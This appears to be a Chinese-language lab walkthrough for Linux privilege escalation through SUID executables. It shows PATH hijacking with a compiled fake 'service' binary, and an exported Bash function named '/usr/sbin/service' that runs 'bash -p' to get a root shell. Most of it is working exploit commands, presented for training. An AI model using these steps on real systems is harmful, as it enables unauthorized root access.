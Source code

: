 可执行文件 `/usr/local/bin/suid-env` 存在漏洞，因为它继承了用户的 `PATH` 环境变量，并尝试执行程序而未指定绝对路径。

首先，执行该文件并注意到它似乎尝试启动 `apache2` web 服务器：

```shell
/usr/local/bin/suid-env
```

对该文件运行 `strings` 命令以查找可打印字符的字符串：

```shell
strings /usr/local/bin/suid-env
```

一行代码 (`service apache2 start`) 暗示着正在调用 `service` 可执行文件来启动 web 服务器，然而并未使用可执行文件的完整路径 ( `/usr/sbin/service` )。

将位于 `/home/user/tools/suid/service.c` 的代码编译成一个名为 `service` 的可执行文件。该代码简单地生成一个 Bash shell：

```shell
gcc -o service /home/user/tools/suid/service.c
```

在 `PATH` 变量中添加当前目录（或新的 `service` 可执行文件所在的目录），然后运行 `suid-env` 可执行文件以获取 root shell：

```shell
PATH=.:$PATH /usr/local/bin/suid-env
```

记得在继续之前退出 root shell！

## SUID / SGID 可执行文件 - 滥用 Shell 功能（#1）

`/usr/local/bin/suid-env2` 可执行文件与 `/usr/local/bin/suid-env` 完全相同，唯一不同之处在于它使用了 service 可执行文件的绝对路径 (`/usr/sbin/service`) 来启动 apache2 web 服务器。

请使用 strings 命令验证一下：

```shell
strings /usr/local/bin/suid-env2
```

在 Bash 版本低于 `4.2-048` 的情况下，可以定义名称类似文件路径的 shell 函数，然后导出这些函数，使其在使用时替代该文件路径下的任何实际可执行文件。

验证一下 Debian 虚拟机上安装的 Bash 版本是否低于 `4.2-048` ：

```shell
/bin/bash --version
```

创建一个名为 `/usr/sbin/service` 的 Bash 函数，该函数执行一个新的 Bash shell（使用 `-p` 以保留权限），然后导出该函数：

```shell
function /usr/sbin/service {/bin/bash -p;}
export -f /usr/sbin/service
```

运行 `suid-env2` 可执行文件以获取 root shell：

```shell
/usr/local/bin/suid-env2
```
